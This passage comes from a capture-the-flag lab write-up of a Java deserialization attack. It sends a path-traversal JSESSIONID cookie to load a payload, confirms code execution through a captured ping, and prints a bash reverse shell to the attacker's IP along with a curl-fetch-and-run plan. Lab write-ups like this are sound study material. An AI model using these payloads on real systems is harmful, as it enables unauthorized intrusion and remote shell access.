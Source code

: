 ```

root@kali# curl -s http://10.10.10.205:8080/ -H "Cookie: JSESSIONID=../../../../../opt/samples/uploads/ping"
<!doctype html><html lang="en"><head><title>HTTP Status 500 – Internal Server Error</title><style type="text/css">h1 {font-family:Tahoma,Arial,sans-serif;color:white;background-color:#525D76;font-size:22px;} h2 {font-family:Tahoma,Arial,sans-serif;color:white;background-color:#525D76;font-size:16px;} h3 {font-family:Tahoma,Arial,sans-serif;color:white;background-color:#525D76;font-size:14px;} body {font-family:Tahoma,Arial,sans-serif;color:black;background-color:white;} b {font-family:Tahoma,Arial,sans-serif;color:white;background-color:#525D76;} p {font-family:Tahoma,Arial,sans-serif;background:white;color:black;font-size:12px;} a {color:black;} a.name {color:black;} .line {height:1px;background-color:#525D76;border:none;}</style></head><body><h1>HTTP Status 500 – Internal Server Error</h1><hr class="line" /><p><b>Type</b> Exception Report</p><p><b>Message</b> java.lang.Override missing element entrySet</p><p><b>Description</b> The server encountered an unexpected condition that prevented it from fulfilling the request.</p><p><b>Exception</b></p><pre>java.lang.annotation.IncompleteAnnotationException: java.lang.Override missing element entrySet
        java.base&#47;sun.reflect.annotation.AnnotationInvocationHandler.invoke(AnnotationInvocationHandler.java:83)
        com.sun.proxy.$Proxy5.entrySet(Unknown Source)
...[snip]...

```

It crashes, but I don’t get a ping. The crash is expected. The payload won’t have the data the program expects, and will make it crash. But not getting a ping means the payload didn’t work.

I’ll repeat the process with `CommonsCollections2`, and I do get a ping:

```

root@kali# tcpdump -i tun0 icmp
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
09:46:24.215875 IP 10.10.10.205 > 10.10.14.15: ICMP echo request, id 1, seq 1, length 64
09:46:24.215931 IP 10.10.14.15 > 10.10.10.205: ICMP echo reply, id 1, seq 1, length 64

```

I have RCE, and know a payload that works.

#### Shell

To get a shell, I needed to do a bit more playing. It didn’t work with any commands that had redirection (like `|` or `>`) or stacking commands with `;`. So I went to the three step approach. I created a simple shell payload Bash script:

```

#!/bin/bash

bash -i >& /dev/tcp/10.10.14.15/443 0>&1

```

Now I’ll send three payloads. The first will use `curl` to fetch that shell and write it to `/tmp`. The next will `chmod` it to make it executable. The third will run it. Because I ended up doing this a handful of times, I wrote a dummy Bash script to do it for me.
